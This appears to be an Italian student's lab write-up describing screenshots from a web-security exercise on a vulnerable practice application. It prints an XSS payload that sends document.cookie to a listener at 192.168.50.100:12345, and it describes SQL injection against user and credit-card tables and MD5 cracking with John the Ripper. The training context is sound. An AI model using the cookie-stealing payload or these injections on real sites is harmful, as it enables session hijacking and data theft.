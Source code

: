 # LezioneS6_L5

Screenshot 1:  Lo script <script>window.location="http://192.168.50.100:12345/?cookie"+document.cookie</script> imposta la posizione del browser a un URL specifico (http://192.168.50.100:12345/)
               aggiungendo i cookie dell'utente (document.cookie) alla fine dell'URL come parametro.
Screenshot 2:  Il server rimane in ascolto sulla porta 12345. Quando un client si connetterà a questa porta, netcat mostrerà i dati inviati dal client sullo stdout
Screenshot 3:  La stringa è un'attacco di SQL injection per recuperare le informazioni sugli utenti e le password dalla tabella users di un database.
Screenshot 4:  Il comando esguito è una chiamata al programma John the Ripper, un popolare strumento di cracking delle password. Questo comando viene utilizzato per eseguire un attacco di forza bruta o di dizionario per cercare di recuperare le password da un file hash MD5.
Screenshot 5:  Questa stringa è simile allo screenshot 3, dove l'obiettivo è quello di ottenere informazioni sensibili come il numero della carta di credito (ccnumber) e il codice di verifica della carta di credito (ccv) dalla tabella credit_cards.
Screenshot 6:  Questa stringa è un tentativo di attacco di SQL injection, simile allo Screenshot 3 e 5. L'obiettivo sembra essere quello di recuperare informazioni sensibili come i numeri 
               delle carte di credito (ccnumber) e le date di scadenza delle carte di credito (expiration) dalla tabella credit_cards di un database, presumibilmente all'interno di un'applicazione vulnerabile.
Screenshot 7:  Questa stringa esegue un'attacco di SQL injection per ottenere informazioni sulle colonne della tabella credit_cards da uno schema di informazioni (information_schema).
Screenshot 8:  Questa stringa è un attacco di SQL injection per ottenere informazioni sulle tabelle presenti nel database utilizzando lo schema di informazioni (information_schema).
Screenshot 9:  Questa stringa esegue un attacco di SQL injection per ottenere informazioni sulle tabelle presenti nel database utilizzando lo schema di informazioni (information_schema).
Screenshot 10: Questa stringa esegue un attacco di SQL injection per recuperare informazioni sulle colonne della tabella 'users' utilizzando lo schema di informazioni (information_schema)
Screenshot 11: Questa stringa esegue un attacco di Cross-Site Scripting (XSS) inserendo uno script JavaScript malevolo all'interno di un input, come un campo di un modulo web.
               Lo script <script>alert(document.cookie)</script> è progettato per mostrare una finestra di avviso nel browser dell'utente contenente il valore dei cookie del sito web corrente.
Screenshot 12: Questa stringa esegue un'attacco di SQL injection in ambiente security level Medium per recuperare le informazioni sugli utenti e le relative password dalla tabella users di un database. 
               L'obiettivo di questa query è quello di combinare i risultati della condizione 1 = 1 (che è sempre vera) con i risultati della selezione delle colonne user e password dalla tabella users.
Screenshot 1:
Screenshot 1:
Screenshot 1:
Screenshot 1:
Screenshot 1:
